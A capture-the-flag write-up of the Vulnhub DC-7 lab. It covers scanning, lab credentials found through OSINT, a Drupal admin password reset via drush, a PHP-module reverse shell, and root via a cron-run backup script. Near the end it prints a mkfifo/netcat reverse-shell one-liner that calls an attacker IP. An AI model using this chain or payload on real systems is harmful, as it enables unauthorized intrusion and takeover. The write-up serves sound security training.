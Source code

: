 ```yaml
---
title:     "Vulnhub - DC 7"
tags: [medium,drupal,cron]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/1.png)
Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : <https://www.vulnhub.com/entry/dc-7,356/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

## OSINT 

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username<br/>

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

## Getting User Credentials

While checking the repo found some credentials.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

## Getting Shell as www-data

We successfully logged in with new password ``admin:admin``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/10.png)

I found this 
><https://www.drupal.org/project/php>

I clicked on the Install new module button and uploaded this!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/13.png)


## Privilege Escalation

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/14.png)

Wait for sometime because cron is running!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/15.png)

We got Root !!













